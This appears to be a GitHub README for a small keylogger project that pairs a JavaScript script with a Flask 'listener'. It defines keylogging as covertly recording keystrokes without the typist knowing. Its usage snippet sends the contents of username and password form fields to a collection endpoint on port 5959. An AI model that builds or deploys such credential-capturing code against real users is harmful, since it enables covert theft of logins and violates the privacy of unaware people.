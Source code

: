 # keylog

keylogging or keyboard capturing, is the action of recording (logging) the keys struck on a keyboard, typically covertly, so that a person using the keyboard is unaware that their actions are being monitored.

## Usage
> keylogger.js
```js
// Call the send function
send(element_id, server_url, parameter_name);

// For listener.py
// According to listener.py the route should be '/main'
// Parameters for username and password should be username and password
send('user','http://localhost:5959/main','username');
send('pass','http://localhost:5959/main','password');
```
> listener.py
```bash
# install flask
pip3 install flask
```
runs on port 5959

